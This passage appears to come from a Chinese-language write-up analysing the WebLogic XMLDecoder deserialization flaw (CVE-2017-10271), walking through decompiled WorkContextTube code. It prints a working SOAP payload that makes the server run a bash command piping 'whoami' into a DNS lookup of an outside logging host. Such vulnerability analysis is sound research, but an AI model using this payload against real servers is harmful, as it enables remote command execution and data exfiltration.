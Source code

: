         return super.processRequest(var1);
    }

将var3传递给readHeaderOld(var3)，继续跟进readHeaderOld。

var1的值:

    com.sun.xml.ws.api.message.Packet@4419bacb Content: <?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <java version="1.8.0_131" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
    <void index="0">
    <string>/bin/bash</string>
    </void>
    <void index="1">
    <string>-c</string>
    </void>
    <void index="2">
    <string>ping `whoami`.7153b738c41fxxxxxxaadf9dbd46.tu4.org</string>
    </void>
    </array>
    <void method="start"/></void>
    </java>
    </work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>

![](./resource/(CVE-2017-10271)WeblogicXMLDecoder反序列化漏洞/media/rId31.png)

WorkContextTube.class

    protected void readHeaderOld(Header var1) {
        try {
            XMLStreamReader var2 = var1.readHeader();
            var2.nextTag();
            var2.nextTag();
            XMLStreamReaderToXMLStreamWriter var3 = new XMLStreamReaderToXMLStreamWriter();
            ByteArrayOutputStream var4 = new ByteArrayOutputStream();
            XMLStreamWriter var5 = XMLStreamWriterFactory.create(var4);
            var3.bridge(var2, var5);
            var5.close();
            WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
            this.receive(var6);
        } catch (XMLStreamException var7) {
            throw new WebServiceException(var7);
        } catch (IOException var8) {
            throw new WebServiceException(var8);
        }
    }

![](./resource/(CVE-2017-10271)WeblogicXMLDecoder反序列化漏洞/media/rId32.png)
